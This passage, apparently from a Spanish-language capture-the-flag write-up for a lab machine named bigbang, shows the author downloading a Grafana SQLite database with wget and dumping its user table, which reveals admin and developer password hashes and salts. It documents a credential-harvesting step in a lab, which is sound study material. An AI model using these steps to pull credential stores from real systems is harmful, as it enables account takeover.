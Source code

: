 ~~~ bash
wget http://10.10.11.52:8000/grafana.db             
--2025-05-03 16:22:08--  http://10.10.11.52:8000/grafana.db
Connecting to 10.10.11.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1003520 (980K) [application/octet-stream]
Saving to: ‘grafana.db’

grafana.db                                    100%[================================================================================================>] 980.00K   372KB/s    in 2.6s    

2025-05-03 16:22:11 (372 KB/s) - ‘grafana.db’ saved [1003520/1003520]
~~~

Para ver las tablas, podemos usar el siguiente comando, veremos una tabla `user`

~~~ bash
sqlite> .tables
...
file_meta                    user                       
...
~~~

Consultaremos todos los datos de esta tabla

~~~ bash
.dump user
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE `user` (
`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL
, `version` INTEGER NOT NULL
, `login` TEXT NOT NULL
, `email` TEXT NOT NULL
, `name` TEXT NULL
, `password` TEXT NULL
, `salt` TEXT NULL
, `rands` TEXT NULL
, `company` TEXT NULL
, `org_id` INTEGER NOT NULL
, `is_admin` INTEGER NOT NULL
, `email_verified` INTEGER NULL
, `theme` TEXT NULL
, `created` DATETIME NOT NULL
, `updated` DATETIME NOT NULL
, `help_flags1` INTEGER NOT NULL DEFAULT 0, `last_seen_at` DATETIME NULL, `is_disabled` INTEGER NOT NULL DEFAULT 0, is_service_account BOOLEAN DEFAULT 0, `uid` TEXT NULL);
INSERT INTO user VALUES(1,0,'admin','admin@localhost','','441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9ba6bd47d70edb7421b05d9706ba6147cb71973a34','CFn7zMsQpf','CgJll8Bmss','',1,1,0,'','2024-06-05 16:14:51','2024-06-05 16:16:02',0,'2024-06-05 16:16:02',0,0,'');
INSERT INTO user VALUES(2,0,'developer','ghubble@bigbang.htb','George Hubble','7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960','4umebBJucv','0Whk1JNfa3','',1,0,0,'','2024-06-05 16:17:32','2025-01-20 16:27:39',0,'2025-01-20 16:27:19',0,0,'ednvnl5nqhse8d');
COMMIT;
~~~
